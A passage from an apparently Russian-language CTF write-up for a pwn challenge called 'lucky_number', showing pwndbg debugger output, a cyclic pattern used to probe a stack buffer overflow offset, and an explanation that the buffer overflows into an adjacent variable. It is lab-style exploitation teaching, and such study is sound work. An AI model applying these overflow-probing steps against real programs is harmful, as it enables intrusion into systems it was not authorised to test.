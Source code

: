 ```bash
*R11  0x2
*R12  0x401090 (_start) ◂— xor ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
*RBP  0x7fffffffdf00 —▸ 0x401250 (__libc_csu_init) ◂— push r15
*RSP  0x7fffffffdf00 —▸ 0x401250 (__libc_csu_init) ◂— push r15
*RIP  0x401195 (main+4) ◂— sub rsp, 0x110
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
 ► 0x401195 <main+4>     sub    rsp, 0x110
   0x40119c <main+11>    mov    dword ptr [rbp - 4], 0x13371337
   0x4011a3 <main+18>    lea    rdi, [rip + 0xea6]
   0x4011aa <main+25>    call   puts@plt                      <puts@plt>
 
   0x4011af <main+30>    mov    rax, qword ptr [rip + 0x2ea2] <stdout@GLIBC_2.2.5>
   0x4011b6 <main+37>    mov    rdi, rax
   0x4011b9 <main+40>    call   fflush@plt                      <fflush@plt>
 
   0x4011be <main+45>    mov    rax, qword ptr [rip + 0x2e93] <stdout@GLIBC_2.2.5>
   0x4011c5 <main+52>    mov    rcx, rax
   0x4011c8 <main+55>    mov    edx, 0x1a
   0x4011cd <main+60>    mov    esi, 1
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rbp rsp 0x7fffffffdf00 —▸ 0x401250 (__libc_csu_init) ◂— push r15
01:0008│         0x7fffffffdf08 —▸ 0x7ffff7df8d0a (__libc_start_main+234) ◂— mov edi, eax
02:0010│         0x7fffffffdf10 —▸ 0x7fffffffdff8 —▸ 0x7fffffffe32b ◂— '/home/elicot/Downloads/surctf/pwn/lucky_number/lucky_number'
03:0018│         0x7fffffffdf18 ◂— 0x100000000
04:0020│         0x7fffffffdf20 —▸ 0x401191 (main) ◂— push rbp
05:0028│         0x7fffffffdf28 —▸ 0x7ffff7df87cf (init_cacheinfo+287) ◂— mov rbp, rax
06:0030│         0x7fffffffdf30 ◂— 0x0
07:0038│         0x7fffffffdf38 ◂— 0xa170cf15fa097ec5
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► 0         0x401195 main+4
   1   0x7ffff7df8d0a __libc_start_main+234
────────────────────────────────────────────────────────────────────────────────
```

Попробуем узнать offset(размер буффера), при котором происходит ошибка Segmentation fault. Сделаем это при помощи команды cyclic, которая сгенерирует нам строку из определенного количества символов(в нашем случае мы попробуем напримере 300 символов):

```bash
pwndbg> cyclic 300
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
pwndbg> r
Starting program: /home/elicot/Downloads/surctf/pwn/lucky_number/lucky_number 
The Lottery Ball will grant access to the treasure chest if you bravely pass the challenge!
Enter your ticket number: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
No luck for you today!
[Inferior 1 (process 468019) exited normally]
```
Здесь мы можем заметить что наш ввод не вызвал нам нужную ошибку Segmentation fault. Это происходит потому что, переменная `local_118` у которой есть размер буффера переполняется, а переменная `local_c`, которая стоит за ней не имеет размера буффера и при любом вводе, программа отрабатывает без ошибок. Проанализируем код GHIDRA:
